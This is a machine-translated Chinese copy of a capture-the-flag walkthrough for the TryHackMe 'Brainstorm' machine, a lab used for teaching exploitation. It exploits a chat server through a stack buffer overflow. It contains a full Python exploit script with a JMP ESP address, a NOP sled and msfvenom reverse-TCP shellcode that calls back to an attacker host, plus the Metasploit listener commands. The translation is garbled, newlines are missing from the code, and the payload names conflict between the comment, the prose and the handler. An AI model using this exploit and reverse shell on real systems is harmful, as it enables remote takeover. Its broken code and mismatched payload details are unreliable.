# 布兰斯多姆·特里哈克姆

> 原文：<https://infosecwriteups.com/brainstrom-tryhackme-523b916661ff?source=collection_archive---------3----------------------->

对聊天程序进行逆向工程，并编写脚本来利用 Windows 机器。


# ✅信息收集

## Rust 扫描开放端口枚举


所以我们找到了三个开放端口

*   21 FTP
*   3389 号
*   9999 abyss 服务器(定制)

让我们首先尝试列举 FTP 端口

# ✅港 21 FTP



如你所见，我用一个**匿名**用户名和密码访问了 FTP，在那里我发现了两个有趣的文件

*   chatserver.exe
*   essfunc.dll

所以我用 FTP 中的 **get** 命令把它们都下载到了我的机器上。

# ✅港 9999

我不太确定这个端口是做什么的，但最有可能的是正在运行的聊天服务器。让我们通过使用 NC 二进制连接它来检查一下



是的，聊天服务器正在运行，它要求输入用户名和您要发送的消息。

因为这是一台基于缓冲区溢出的机器，所以这个聊天服务器有可能容易受到缓冲区溢出的攻击，让我们尝试利用并检查一下



正如你在上面看到的，我已经发送了一串 A 作为用户名和一串 A 作为消息。

聊天服务器将用户名的长度限制为最多 20 个字符，但是对消息长度没有限制

让我们试着对程序进行逆向工程

我们已经有了 chatserver.exe 和它的 DLL 文件，这是 chatserver.exe 逆向工程所需要的。

# 缓冲区溢出的✅反转 chatserver.exe

**先决条件:**

*   窗口虚拟机
*   安装在 windows VM 上的免疫调试器
*   mona python 脚本配置了免疫调试器

用免疫调试器打开`chatserver.exe`，第一次在免疫调试器中启动二进制时，windows 防火墙会询问连接允许还是拒绝。就允许吧。



单击免疫调试器中的 play 按钮启动二进制文件，一旦启动，让我们尝试看看应用程序是否崩溃，以及我们是否发送了一堆 A。

# ✅Fuzzing

首先配置 mona 当前的工作目录，这样我们就可以像这样轻松地对其进行操作:
`!mona config -set workingfolder c:\mona\%p`

我们可以在 python 的帮助下生成一堆 A，并通过手动复制粘贴到消息中来发送。

```
python -c 'print("test\r\n"+"A"*3000)| nc 10.0.2.8 9999
```


是的，它确实使我发送的大约 3000 个 A 的应用程序崩溃，这证明该应用程序容易受到缓冲区溢出的攻击。



# ✅发现偏移

为了找到偏移量，我们将首先创建循环模式。我们可以用 pwn-tools 或 Metasploit 创建该模式。我将使用 Metasploit

```
/usr/bin/msf-pattern_create -l 3000
```



现在我将把这个模式作为消息发送给 chatserver.exe 程序



现在应用程序将崩溃，我们将不得不记下 EIP 寄存器的值



**所以 EIP 寄存器的值是:31704330**

现在使用上面的 EIP 值，我们将在下式的帮助下找到偏移量

```
/usr/bin/msf-pattern_offset -l 3000 -q 31704330
```



# ✅发现坏人

首先，用 mona 创建所有十六进制字符，如下所示:

`!mona bytearray -b "\x00"`

> *我们已经创建了除\x00 以外的所有字符，因为它是通用的坏字符*

可以在`C:\mona\brainpan\bytearray.txt`位置找到

```
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

或者我们也可以用 python 创建所有角色，就像这样:

```
all_char=""
for x in range(1, 256):
    all_char+="\\x" + "{:02x}".format(x)
print(all_char)
```

或者我们也可以使用 bad chars pip 模块`pip install badchars`
并生成 all_chracter 十六进制代码，如下:`badchars -f python`

# ✅创建缓冲区溢出脚本:

```
#!/bin/pythonimport sys
import socket
import struct
offset=2012all_char=b'\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'buffer= b"A"*offset+b"BBBB"+all_chartry:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.0.2.8",9999))
    s.send((b"testuser"+b"\r\n"))
    s.recv(1024)
    s.send((buffer+b"\r\n"))
    s.recv(1024)
    s.close()except:
    print("error")
    sys.exit()
```

在执行完上面的脚本后，程序崩溃了，现在我们可以通过比较 mona 之前生成的所有字符来找到坏字符。



正如你所看到的程序崩溃了，现在我们有一个 **EIP(指令指针)**值 42424242(这是上面脚本中设置的 B)和一个 **ESP(堆栈指针)**值 00A6EEA8

现在我们可以用莫娜来找出像这样的坏角色:

```
!mona compare -f C:\mona\brainpan\bytearray.bin -a <ESP_ADDRESS>
```

如您所见，我们得到了结果:



上面写着未经修改，意思是没有坏角色，只有一个`\x00`，这是普遍的坏角色。

# ✅查找跳转语句/返回地址

我们可以这样找到蒙娜:

`!mona jmp -r esp -cpb "ALL_BAD_CHAR"`

所以在执行了上面的命令后，我们只得到一个返回/跳转语句:


所以在执行了上面的命令之后，我们得到了很少的返回/跳转语句，所以我们将不得不使用具有最少内存安全实现的地址，第一个地址 0x625014DF 似乎可以正常工作

现在，为了使用这个地址，您需要将它从 little-endian(基于操作系统)转换过来。我们可以用 python `struct`函数来实现:

```
def p32(data):
  return struct.pack('<I',data)p32(0x<RETURN_ADDRESS>)
```

# ✅添加 NOPs 和外壳代码注入

**添加 NOPs**

现在，当我们将要跳转到新的 EIP 时，我们的外壳代码将驻留在那里，这将需要一些空间来打开外壳，所以为了安全起见，将添加 NOPs，这基本上意味着没有操作，只是什么也不做(\x90)。我们可以添加一些 8 的倍数的 NOPs(作为 8 位的存储器地址)

`b'\x90'*16`

# **✅生成外壳代码**

我们可以使用 Metasploit 通过以下命令生成外壳代码:

```
msfvenom -p windows/shell/reverse_tcp LHOST=10.0.2.23 LPORT=4444 -b "\x00" -f py -v shellcode
```

我准备用一般的反壳！！

现在只需将这两样东西(NOPs 和 shellcode)添加到我们的缓冲区中

# ✅最终缓冲区溢出脚本:

```
#!/bin/pythonimport sys
import socket
import structdef p32(data):
    return struct.pack('<I',data)# bad_char=b"\x00"offset=2012jmp_esp=p32(0x625014DF)nop_sled=b"\x90"*16buffer= b"A"*offset+b"BBBB"#msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.23 LPORT=4444 -b "\x00" -f py -v shellcodeshellcode = b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xc0\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\x92\x4b\x4e"
shellcode += b"\xa0\xc3\x08\xa5\x3a\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\x6e\x03\xcd\x44\x33"
shellcode += b"\xe0\x69\x3a\x92\x4b\x0f\xf1\x82\x58\xf7\x6b"
shellcode += b"\xda\x7a\x9c\xc5\x8b\x83\xf7\x5a\xc4\x03\xc5"
shellcode += b"\xf2\xdb\x40\x2e\x68\xb2\x06\x7f\x69\x8b\x07"
shellcode += b"\x12\x70\xd8\x03\xc5\xd2\x93\x40\x94\xfa\x3e"
shellcode += b"\x77\x2f\xdc\xc1\x24\x85\x7b\x53\x82\x43\xe1"
shellcode += b"\xc2\xc9\x47\xd7\xc0\x03\xc5\xf2\xe3\x83\xe7"
shellcode += b"\x06\xda\x4a\x9e\xe1\x92\x6e\x24\x42\x8a\x40"
shellcode += b"\x4c\xaf\x46\x7a\xa5\x3a\x92\xc0\xce\x28\xc3"
shellcode += b"\x08\xa5\x72\x17\x8b\x3a\xc7\x8b\x09\x75\xb1"
shellcode += b"\xda\x53\x0a\x2b\x83\x28\xf5\x73\x93\x9b\xad"
shellcode += b"\xf6\x8b\xf7\x6c\x7b\x19\x7f\xc6\xed\xf2\xc1"
shellcode += b"\xed\x3b\x44\x03\x7f\x60\x6f\x49\x64\xf3\x9f"
shellcode += b"\x0a\x4f\x61\xfb\xe8\xd0\xcb\xde\x48\x02\x84"
shellcode += b"\xcb\x4d\x9c\xeb\xe7\x93\x16\xe4\x48\x48\x81"
shellcode += b"\x73\x93\x9b\x28\xe1\x48\x04\xed\x7e\x19\x0b"
shellcode += b"\x52\xe9\xc2\xd8\xe4\xb1\x96\xc3\x0f\xf8\x82"
shellcode += b"\x50\xfb\x63\xda\x4a\x9e\xfa\x82\x50\xe4\x63"
shellcode += b"\xd3\x11\x06\x23\x2f\x28\xe4\x68\x6d\xab\x16"
shellcode += b"\xe1\x9a\x52\xed\xb1\x80\xa2\x05\x5f\x3c\xf7"
shellcode += b"\xf8\x73\x2c\x3c\x3d\x92\x9c\x3b\x97\x3a\x92"
shellcode += b"\x0a\x18\xe9\x4a\xee\xed\xbb\x7e\xeb\x4f\xa0"
shellcode += b"\xc3\x41\x2c\xdf\xdb\xf7\x4c\xa0\xd2\x54\xaf"
shellcode += b"\x3a\x90\x5c\x0f\xf4\x8a\x81\x41\x76\x1b\xba"
shellcode += b"\x0f\x1a\x8f\x7f\x83\x3d\x6d\x9e\x02\x29\x29"
shellcode += b"\x60\xa4\x3b\x92\x4b\x17\xe1\x79\x21\x25\x51"
shellcode += b"\x92\xb4\x9b\xca\xc9\x49\xfb\x6a\xc2\x06\x7f"
shellcode += b"\x69\x8e\x39\x65\x72\x6d\x8b\x06\x29\x01\x40"
shellcode += b"\x5a\xfa\xda\xc2\x8f\xe1\x79\xe2\xaa\xe5\x72"
shellcode += b"\xb4\x9b\xe8\x4a\xcf\xcf\x2a\xd3\x13\x02\x29"
shellcode += b"\x21\x40\x2c\xc3\xd3\xf1\xd7\x05\xb7\x69\x5a"
shellcode += b"\xef\x17\x8b\x3a\xaa\x8a\xf7\x6b\x4f\x77\xa3"
shellcode += b"\xdd\xa0\xc3\x08\xed\xb9\x7e\x5b\x06\x29\x21"
shellcode += b"\x45\x94\xf3\xf8\x4f\x0f\xf8\x8b\x81\x5c\x7b"
shellcode += b"\x28\x49\x97\x68\x9c\xf7\x70\xb9\x6a\x4b\x30"
shellcode += b"\xf5\x8b\x8b\x61\x1a\xcc\xc2\xb8\xca\x83\x49"
shellcode += b"\xfc\x52\x92\x5b\x4e\xa0\x82\x50\xed\xb3\x60"
shellcode += b"\x03\x7f\x69\x82\xb2\xfd\x9e\xc1\xae\xb1\x75"
shellcode += b"\x8b\x81\x66\x73\x1b\x8c\x03\x91\x0a\x41\x2c"
shellcode += b"\xca\xda\xc2\x94\xe8\x4a\xf1\xe4\x80\x90\x92"
shellcode += b"\x86\xff\x3c\xdd\x26\xc2\x92\x36\x66\xf8\x82"
shellcode += b"\x5f\xfc\x52\x92\x0b\x4e\xa0\x82\x50\xcf\x3a"
shellcode += b"\xc8\x0a\xf4\xab\xec\x07\x95\xc5\x47\x1c\x17"
shellcode += b"\xe1\x79\x7d\xcb\x77\xf3\xb4\x9b\xe9\x3c\xc6"
shellcode += b"\x4c\x06\x6d\xb4\xb1\xe8\xc2\xcb\xed\x13\x54"
shellcode += b"\x03\xcb\x56\xb6\xbc\xe4\xc5\x75\x13\x24\xa0"
shellcode += b"\x9a\x41\x62\xf8\x62\xfe\xec\xf6\x3c\xdd\xa5"
shellcode += b"\x3a"buffer = b"A"*offset+jmp_esp+nop_sled+shellcodetry: s=socket.socket(socket.AF_INET,socket.SOCK_STREAM) s.connect(("10.0.2.8",9999)) s.send((b"testuser"+b"\r\n")) s.recv(1024) s.send((buffer+b"\r\n")) s.recv(1024) s.close()except: print("error") sys.exit() 
```

# ✅剥削

用 Metasploit
`exploit/multi/handler`
`set payload windows/meterpreter/reverse_tcp`
`set lhost eth0`
`set lport 4444`
打开反向 shell 处理程序，执行上述脚本后监听反向连接！！



最后，我们得到了反向外壳。现在我们终于可以找到我们的 root.txt 文件了



感谢您阅读我的评论！！👊👊

请在媒体和其他社交平台上关注我，支持我:

[](https://surya-dev.medium.com/) [## 苏亚·德夫·辛格-中等

### 阅读苏亚·德夫·辛格在媒体上的文章。狂热的网络安全学习者和渗透测试者/道德黑客…

surya-dev.medium.com](https://surya-dev.medium.com/)  [## SURYA DEV SINGH(@ suryadevsingh _ _)* insta gram 照片和视频

### 编辑描述

www.instagram.com](https://www.instagram.com/suryadevsingh___/) [](https://github.com/surya-dev-singh/) [## surya-dev-singh -概述

### 我是一名自学的渗透测试人员，也是一名非常好奇的网络安全学习者。我想越来越多地了解…

github.com](https://github.com/surya-dev-singh/) [](https://twitter.com/kryolite_secure) [## JavaScript 不可用。

### 编辑描述

twitter.com](https://twitter.com/kryolite_secure) 

你们可以订阅我🙌在 YouTube 上:**我在那里发布演练和其他道德黑客相关的视频。**

[](https://www.youtube.com/channel/UCNKXlqfPevPg2Cv1R5YZ6Jw) [## Kryolite 安全公司

### 你好世界！在 Kryolite Security 上，你可以找到关于道德黑客、网络安全、渗透测试、CTFs 的视频…

www.youtube.com](https://www.youtube.com/channel/UCNKXlqfPevPg2Cv1R5YZ6Jw) 

*来自 Infosec 的报道:Infosec 上每天都有很多事情发生，很难跟上。* [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*